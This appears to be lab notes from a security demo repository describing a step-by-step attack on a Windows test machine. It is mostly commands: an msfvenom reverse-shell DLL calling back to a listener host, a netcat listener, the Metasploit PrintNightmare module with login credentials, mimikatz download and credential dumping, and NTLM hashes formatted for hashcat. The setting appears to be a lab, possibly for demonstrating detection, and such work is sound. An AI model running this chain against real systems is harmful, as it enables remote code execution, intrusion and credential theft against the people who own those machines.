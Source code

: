 - enable pass the hash authentication
  - https://www.techinpost.com/account-restrictions-are-preventing-this-user-from-signing-in/

- install mondoo agent on it and add the two mondoo policies to it

- start samba server in folder hacks

~~~ bash
sudo smbserver.py smb ./
~~~

- create reverse shell in folder hacks

~~~ bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f dll -o rev.dll
~~~

- start listener

~~~ bash
nc -lnvp 4444
~~~

- start metasploit

~~~ text
use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare

set RHOSTS 192.168.56.248

set SMBUSER mondoo

set SMBPASS mondoo.com

set DLL_PATH \\\\192.168.56.1\\smb\\rev.dll
~~~

- donwload mimikatz via SMB Share

~~~ powershell
Copy-Item \\192.168.56.1\smb\mimikatz_trunk.zip -Destination C:\Windows\Temp\

cd C:\Windows\Temp\

Expand-Archive mimikatz_trunk.zip

cd mimikatz_trunk\x64

.\mimikatz.exe

privilege::debug

sekurlsa::msv
~~~

- for hashcat use the follwoing format

~~~ text
mondoo:::9fbdcca25c0a63ed4e1b84592cd628c7:::
vagrant:::e02bc503339d51f71d913c245d35b50b:::
Administrator:::31d6cfe0d16ae931b73c59d7e0c089c0:::
~~~
